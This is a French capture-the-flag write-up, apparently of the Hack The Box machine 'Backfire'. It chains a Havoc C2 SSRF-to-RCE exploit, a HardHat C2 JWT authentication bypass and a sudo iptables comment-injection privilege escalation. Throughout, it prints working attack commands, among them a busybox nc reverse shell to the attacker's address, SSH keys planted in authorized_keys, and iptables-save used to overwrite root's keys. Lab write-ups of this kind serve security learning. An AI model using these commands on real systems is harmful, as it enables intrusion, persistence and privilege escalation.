



## Résumé
User Ilya: Exploit Havoc C2: SSRF + RCE\
Lateral mouvement vers Sergej: Exploit HardHat C2: Authentification bypass + RCE\
Root: Défaut de configuration sudo

## Enumeration
A l'aide d'un scan nmap, nous pouvons identifier deux services web, celui accessible sur le port 8000 retiendra notre attention ici.


$ nmap 10.10.11.49 -Pn -v

PORT     STATE    SERVICE
22/tcp   open     ssh
443/tcp  open     https
5000/tcp filtered upnp
7096/tcp filtered unknown
8000/tcp open     http-alt


## User Ilya
### Exploit Havoc C2: SRF + RCE

Un directory listing accessible via le port 8000 nous permet de récupérer deux fichiers:

- `disable.tls.patch`: Il nous indique que TLS est désactivé pour le port 40056 permettant ainsi une connexion non sécurisée via WebSocket.
- `havoc.yaotl`: Un fichier de configuration pour [Havoc C2](https://github.com/HavocFramework/Havoc)

Ces fichiers suggèrent que l'exploitation reposera sur une ou plusieurs vulnérabilités liées à un serveur de commande et contrôle (C2) Havoc.

Après quelques recherches, on tombe sur cet exploit: https://github.com/sebr-dev/Havoc-C2-SSRF-to-RCE\
Cet exploit combine deux vulnérabilités: 
- la CVE-2024-41570, qui permet d’exploiter une faille SSRF pour ouvrir un socket TCP sur le serveur principal (teamserver) et d’y lire ou écrire des données.
- une injection de commandes autorisant un utilisateur authentifié à exécuter des commandes sur ce même serveur.

Une fois l'installation du framework Havoc éffectuée, on lance le serveur et le client:

$ ./havoc server --verbose --debug --profile /home/kali/Téléchargements/havoc.yaotl
              _______           _______  _______ 
    │\     /│(  ___  )│\     /│(  ___  )(  ____ \                                            
    │ )   ( ││ (   ) ││ )   ( ││ (   ) ││ (    \/                                            
    │ (___) ││ (___) ││ │   │ ││ │   │ ││ │                                                  
    │  ___  ││  ___  │( (   ) )│ │   │ ││ │                                                  
    │ (   ) ││ (   ) │ \ \_/ / │ │   │ ││ │                                                  
    │ )   ( ││ )   ( │  \   /  │ (___) ││ (____/\                                            
    │/     \││/     \│   \_/   (_______)(_______/                                            

         pwn and elevate until it's done

[12:47:51] [DBUG] [cmd.init.func2:59]: Debug mode enabled
[12:47:51] [INFO] Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
[12:47:51] [INFO] Havoc profile: /home/kali/Téléchargements/havoc.yaotl
[12:47:51] [INFO] Build: 
 - Compiler x64 : data/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc
 - Compiler x86 : data/i686-w64-mingw32-cross/bin/i686-w64-mingw32-gcc
 - Nasm         : /usr/bin/nasm
[12:47:51] [INFO] Time: 04/06/2025 12:47:51
...



$ ./havoc client
              _______           _______  _______ 
    │\     /│(  ___  )│\     /│(  ___  )(  ____ \                                            
    │ )   ( ││ (   ) ││ )   ( ││ (   ) ││ (    \/                                            
    │ (___) ││ (___) ││ │   │ ││ │   │ ││ │                                                  
    │  ___  ││  ___  │( (   ) )│ │   │ ││ │                                                  
    │ (   ) ││ (   ) │ \ \_/ / │ │   │ ││ │                                                  
    │ )   ( ││ )   ( │  \   /  │ (___) ││ (____/\                                            
    │/     \││/     \│   \_/   (_______)(_______/                                            

         pwn and elevate until it's done

[12:47:53] [info] Havoc Framework [Version: 0.7] [CodeName: Bites The Dust]
[12:47:53] [info] loaded config file: client/config.toml
[12:47:54] [info] Connecting to profile: HTB
<string>:114: SyntaxWarning: invalid escape sequence '\W'
[12:47:54] [info] Started "Demon Listener" listener


On lance l'exploit en utilisant le compte d'`Ilya` récupéré dans le fichier `havoc.yaotl` et on exécute la commande suivante afin d'obtenir un reverse shell sur le serveur:

$ python3 CVE-2024-41570.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056 -U ilya -P 'CobaltStr1keSuckz!'
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!
...
Enter command to execute: busybox nc 10.10.14.173 80 -e sh
[***] Trying to write to the socket
[***] Success!
[***] Trying to poll teamserver for socket output...
[***] Read socket output successfully!


Le reverse shell obtenu n'étant pas stable et se coupant rapidement, on ajoute notre clé ssh dans le fichier de clés autorisées du compte d'`Ilya`.

$ nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.173] from (UNKNOWN) [10.10.11.49] 60884
echo "ssh-ed25519 A...k kali@kali" >> /home/ilya/.ssh/authorized_keys
cat /home/ilya/.ssh/authorized_keys
...
ssh-ed25519 A...k kali@kali


On se connecte via SSH et on récupère le flag user.

$ ssh -i ~/.ssh/id_ed25519 ilya@10.10.11.49
...
ilya@backfire:~$ ls
files  hardhat.txt  Havoc  user.txt
ilya@backfire:~$ cat user.txt
b961[...]016b


## Lateral mouvement: Sergej
### Exploit HardHat C2: Authentification bypass + RCE

Dans le home d'`Ilya`, on remarque le fichier `hardhat.txt` suivant:


ilya@backfire:~$ ls
files  hardhat.txt  Havoc  user.txt
ilya@backfire:~$ cat hardhat.txt
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C# 


En observant les ports en écoute, on a bien la confirmation qu'une instance de `HardHat`, un autre C2, est présent sur le serveur:


ilya@backfire:~$ netstat -planetu
..
Proto Recv-Q Send-Q Local Address           Foreign Address         State       User       Inode      PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1001       50679      -                   
tcp        0      0 0.0.0.0:7096            0.0.0.0:*               LISTEN      1001       51911      -                   
tcp        0      0 127.0.0.1:40056         0.0.0.0:*               LISTEN      1000       54307      -                   
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      0          21679      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      0          22673      -                   
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN      0          21680      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      1000       53569      -                   
[...]


Puisque `Sergej` n'a apporté aucun changement à la configuration par défaut du C2, nous allons nous baser sur l'article suivant afin de compromettre son compte:
https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7

Plus précisément, on s'intéresse aux vulnérabilités 2 et 3.

La première vulnérabilité permettant de contourner l'authentification exploite le fait que HardHat utilise une clé statique pour signer les JWTs, ce qui nous permet de créer des jetons d'authentification pour n'importe quel rôle.

On forward alors le port 5000 afin d'utiliser le script fourni dans l'article et créer un nouvel utilisateur ayant le rôle de `TeamLead`.

ssh -L 5000:localhost:5000 ilya@10.10.11.49


Dans le script récupéré, on modifie le paramètre `rhost` pour `rhost: = 'localhost:5000'` et on crée notre nouvel utilisateur.

$ python3 ./exploit.py
...
Generated JWT:
ey...oH6CDUNc
...
User sth_pentest created


Maintenant que notre utilisateur est crée, nous allons exploiter la seconde vulnérabilité afin d'obtenir de l'éxecution de code via l'interface de HardHat accessible sur le port 7096.

Dans un premier temps, on forward ce port et se connecte avec notre utilisateur `stj_pentest`.


$ ssh -L 7096:localhost:7096 ilya@10.10.11.49


Ensuite, on va accéder à la page `ImplantInteract` afin d'utiliser la console intégrée.

On constate bien que les commandes sont exécutées en tant que `Sergej`, on va ajouter notre clé publique dans les clés autorisées de ce compte afin de pouvoir nous y connecter via SSH.

## Root
### Défaut de configuration lié à sudo

Une fois connecté en SSH, on remarque un défaut de configuration lié à sudo.


$ ssh -i ~/.ssh/id_ed25519 sergej@10.10.11.49          
Linux backfire 6.1.0-29-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.123-1 (2025-01-02) x86_64
sergej@backfire:~$ ls
HardHatC2  hardhat_firewall.sh
sergej@backfire:~$ cat hardhat_firewall.sh 
#!/bin/bash

#sudo /usr/sbin/iptables-save > /tmp/rules.v4
sudo /usr/sbin/iptables -F

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 5000 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 5000 -j REJECT

sudo /usr/sbin/iptables -A INPUT -p tcp -s localhost --dport 7096 -j ACCEPT
sudo /usr/sbin/iptables -A INPUT -p tcp --dport 7096 -j REJECT

sergej@backfire:~$ sudo -l
Matching Defaults entries for sergej on backfire:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User sergej may run the following commands on backfire:
    (root) NOPASSWD: /usr/sbin/iptables
    (root) NOPASSWD: /usr/sbin/iptables-save


On va s'appuyer sur l'article suivant afin d'élever nos privilèges: https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/

Ici, la conservation des retours à la ligne dans les commentaires d'`iptables` va nous permettre d'écrire dans un fichier arbitaire via `iptables-save`.

Donc, nous allons écraser le fichier des clés publiques autorisées par `root` afin d'y ajouter la notre.


sergej@backfire:~$ sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 AA...Dk kali@kali\n'
sergej@backfire:~$ sudo iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 5000 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 5000 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -s 127.0.0.1/32 -p tcp -m tcp --dport 7096 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 7096 -j REJECT --reject-with icmp-port-unreachable
-A INPUT -i lo -m comment --comment "
ssh-ed25519 AA...Dk kali@kali
" -j ACCEPT
sergej@backfire:~$ sudo iptables-save -f /root/.ssh/authorized_keys


Nous pouvons maintenant accéder à la machine en tant que root via SSH.


$ ssh -i ~/.ssh/id_ed25519 root@10.10.11.49          
root@backfire:~# ls
root.txt
root@backfire:~# cat root.txt
a7b6[...]174e


## Ressources
> [Repo Github du framework Havoc C2](https://github.com/HavocFramework/Havoc)\
> [Repo Github de l'exploit SSRF + RCE Havoc C2](https://github.com/sebr-dev/Havoc-C2-SSRF-to-RCE)\
> [Article Medium pour l'exploit du HardHat C2](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7)\
> [Article permettant d'exploiter iptables et iptables-save via le défaut de configuration sudo](https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/)